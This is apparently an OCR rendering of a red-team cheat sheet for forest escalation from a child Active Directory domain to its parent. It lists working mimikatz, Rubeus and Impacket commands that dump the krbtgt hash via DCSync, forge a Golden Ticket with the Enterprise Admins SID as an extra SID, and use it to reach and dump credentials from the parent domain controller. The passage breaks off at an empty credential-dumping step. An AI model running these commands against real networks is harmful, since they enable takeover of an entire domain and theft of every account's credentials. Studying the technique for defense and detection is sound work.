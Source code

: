 ### Prerequisites

| Requirement | How to Obtain | Windows Command | Linux Command |
|-------------|---------------|-----------------|---------------|
| **KRBTGT Hash** | DCSync attack | `mimikatz # lsadump::dcsync /user:CHILD-DOMAIN\krbtgt` | `secretsdump.py CHILD-DOMAIN.LOCAL/ADMIN@<DC_IP> -just-dc-user krbtgt` |
| **Child Domain SID** | PowerView/Built-in | `Get-DomainSID` | `lookupsid.py CHILD-DOMAIN.LOCAL/ADMIN@<DC_IP> \| grep "Domain SID"` |
| **Enterprise Admins SID** | PowerView query | `Get-DomainGroup -Domain PARENT-DOMAIN.LOCAL -Identity "Enterprise Admins"` | `lookupsid.py CHILD-DOMAIN.LOCAL/ADMIN@<PARENT_DC_IP> \| grep "Enterprise Admins"` |

### Windows Attack Execution

#### Method 1: Mimikatz Golden Ticket

```powershell
# 1. Extract KRBTGT hash
mimikatz # lsadump::dcsync /user:CHILD-DOMAIN\krbtgt

# 2. Get domain SIDs
Get-DomainSID  # Child domain SID
Get-DomainGroup -Domain PARENT-DOMAIN.LOCAL -Identity "Enterprise Admins" | select objectsid

# 3. Create Golden Ticket with ExtraSids
mimikatz # kerberos::golden /user:FAKE-USER /domain:CHILD-DOMAIN.LOCAL /sid:<CHILD_DOMAIN_SID> /krbtgt:<KRBTGT_HASH> /sids:<ENTERPRISE_ADMINS_SID> /ptt

# 4. Verify access
klist
ls \\PARENT-DC.PARENT-DOMAIN.LOCAL\c$
```

#### Method 2: Rubeus Golden Ticket

```powershell
# Create Golden Ticket with Rubeus
.\Rubeus.exe golden /rc4:<KRBTGT_HASH> /domain:CHILD-DOMAIN.LOCAL /sid:<CHILD_DOMAIN_SID> /sids:<ENTERPRISE_ADMINS_SID> /user:FAKE-USER /ptt

# Test access and perform DCSync
mimikatz # lsadump::dcsync /user:PARENT-DOMAIN\TARGET-ADMIN /domain:PARENT-DOMAIN.LOCAL
```

### Linux Attack Execution

#### Method 1: Manual with ticketer.py

```bash
# 1. Extract KRBTGT hash
secretsdump.py CHILD-DOMAIN.LOCAL/ADMIN@<CHILD_DC_IP> -just-dc-user CHILD-DOMAIN/krbtgt

# 2. Get domain SIDs
lookupsid.py CHILD-DOMAIN.LOCAL/ADMIN@<CHILD_DC_IP> | grep "Domain SID"
lookupsid.py CHILD-DOMAIN.LOCAL/ADMIN@<PARENT_DC_IP> | grep -B12 "Enterprise Admins"

# 3. Create Golden Ticket
ticketer.py -nthash <KRBTGT_HASH> -domain CHILD-DOMAIN.LOCAL -domain-sid <CHILD_DOMAIN_SID> -extra-sid <ENTERPRISE_ADMINS_SID> FAKE-USER

# 4. Use ticket
export KRB5CCNAME=FAKE-USER.ccache
psexec.py CHILD-DOMAIN.LOCAL/FAKE-USER@PARENT-DC.PARENT-DOMAIN.LOCAL -k -no-pass -target-ip <PARENT_DC_IP>

# 5. Dumping creds on parent domain:
```